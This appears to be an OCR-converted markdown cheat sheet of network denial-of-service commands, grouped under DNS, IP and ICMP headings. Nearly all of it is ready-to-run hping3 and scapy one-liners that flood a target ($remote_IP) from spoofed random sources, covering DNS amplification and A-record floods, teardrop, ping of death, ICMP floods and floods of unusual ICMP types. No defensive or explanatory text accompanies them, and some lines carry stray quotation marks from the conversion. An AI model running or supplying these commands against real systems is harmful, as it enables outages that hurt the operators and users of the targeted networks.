 ### DNS

```bash
# DNS Amplification
hping3 --udp $remote_IP -i u1 --rand-source --destport 53 -x -g 500 -m 1000 -d 1000 & hping3 --udp $remote_IP -i u1 --rand-source --destport 53

# DNS A Record Flood
"#scapy
send(IP(src=RandIP(),dst=""$remote_IP"")/UDP(sport=RandShort())/DNS(rd=1,qd=DNSQR(qname=""<domain name>"")),  loop=1)"
```

### IP

```bash
# Teardrop Attack
hping3  -f -i u1 --rand-source -S -p $port $remote_IP

# Unknown protocol
hping3 --rawip --ipproto 200 -i u1 --rand-source -p $port $remote_IP
```

### ICMP

```bash
# ICMP Flood
hping3 --i u1 --rand-source --icmp $remote_IP

# ICMP Fragment
hping3 -f --icmp -d 200 -i u1 --rand-source $remote_IP

# Ping of Death
"hping3 -s 66000 -F 1514 $remote_IP OR
#scapy
send( fragment(IP(dst=""10.0.0.5"")/ICMP()/(""X""*60000)) )"

# ICMP type 0
hping3 --verbose --icmp --icmpcode 0 --flood --ttl 64 --data 48 $remote_IP

# Unknown ICMP Type
hping3 --icmp --icmptype 36 --force-icmp --rand-source -i u1 $remote_IP

# ICMP Timestamp Request
hping3 --icmp --icmptype 13 --rand-source -i u1 $remote_IP

# ICMP Timestamp Reply
hping3 --icmp --icmptype 14 --rand-source -i u1 $remote_IP

# ICMP Mask Request
hping3 --icmp --icmptype 17 --rand-source -i u1 $remote_IP

# ICMP Mask Reply
hping3 --icmp --icmptype 18 --rand-source -i u1 $remote_IP
```
